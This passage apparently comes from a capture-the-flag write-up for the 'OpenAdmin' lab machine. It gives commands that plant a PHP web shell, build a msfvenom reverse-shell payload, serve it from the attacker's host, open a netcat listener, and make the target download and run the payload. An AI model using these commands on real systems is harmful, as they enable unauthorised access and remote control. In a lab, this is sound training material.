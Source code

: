 ```bash
# on target, drop webshell as jimmy
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > /var/www/internal/bubba.php
# from kali, test webshell through SSH port foward
curl -s -G --data-urlencode 'c=id' http://127.0.0.01:11111/bubba.php
```

And this returns access to another user:

![user10](./openadmin/user10.png)

Use this new account to get a reverse shell:

```bash
# generate payload 
msfvenom -p linux/x64/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=7777 \
         -f elf \
         -o bubba.joanna.elf
# host payload
sudo python3 -m http.server 80
# setup listener
nc -nvlp 7777
# trigger payload through webshell
curl -s -G --data-urlencode 'c=wget -O /tmp/bubba.joanna.elf http://10.10.14.27/bubba.joanna.elf && chmod 777 /tmp/bubba.joanna.elf && /tmp/bubba.joanna.elf' http://127.0.0.1:11111/bubba.php
```

![user11](./openadmin/user11.png)
